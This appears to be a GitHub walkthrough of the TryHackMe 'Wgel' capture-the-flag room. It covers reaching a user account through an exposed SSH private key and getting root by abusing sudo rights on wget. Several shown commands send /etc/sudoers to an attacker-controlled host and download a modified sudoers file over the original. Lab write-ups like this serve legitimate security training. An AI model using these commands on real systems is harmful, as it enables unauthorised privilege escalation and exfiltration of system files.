# Wgel CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Wgel** CTF challenge on [TryHackMe](https://tryhackme.com/room/wgelctf). 
---

we see 2 open ports: 22 and 80



we can find default Apache webpage with comment that might reveal potential username : jessie



using feroxbuster to discover hidden folders, we found `/sitemap`



enumerating the `/sitemap` folder 



now we found `/sitemap/.ssh`

there is RSA private key on the website



i tried to login with this key as jessie via ssh and it worked



we need to find user flag, using simple find command: 

```
find / -type f -name "user*"
```

user flag is in `/home/jessie/Documents/`



sudo -l output:



checking GTFObins for PE vector



this doesnt seem to work

to get root shell we need to send /etc/sudoers to our own machine, modify the file and send modified file back to the victim

first we start nc listiner to get sudoers file and then we run this command on victim:

```
sudo /usr/bin/wget --post-file=/etc/sudoers 10.14.X.X:4445
```



we got original file

now we modify the sudoers file to let us sudo su without password



now we need to swap the current sudoers file with changed one from our machine using:

```
$ cd /etc
$ sudo /usr/bin/wget 10.14.X.X:8081/sudoers --output-document=sudoers
```

now we can run sudo su, we now have root access and root flag



# MACHINE PWNED
